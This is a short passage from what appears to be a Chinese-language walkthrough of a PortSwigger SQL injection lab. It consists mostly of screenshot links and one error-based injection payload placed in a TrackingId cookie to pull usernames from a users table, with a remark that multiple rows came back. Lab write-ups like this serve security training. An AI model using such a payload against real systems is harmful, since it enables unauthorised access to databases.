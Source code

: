 ![image-20250712232002465](portswigger.assets/image-20250712232002465.png)

**TrackingId=' and 1=cast((select username from users) as int)-- ;**提示返回了多行

![image-20250712232150523](portswigger.assets/image-20250712232150523.png)
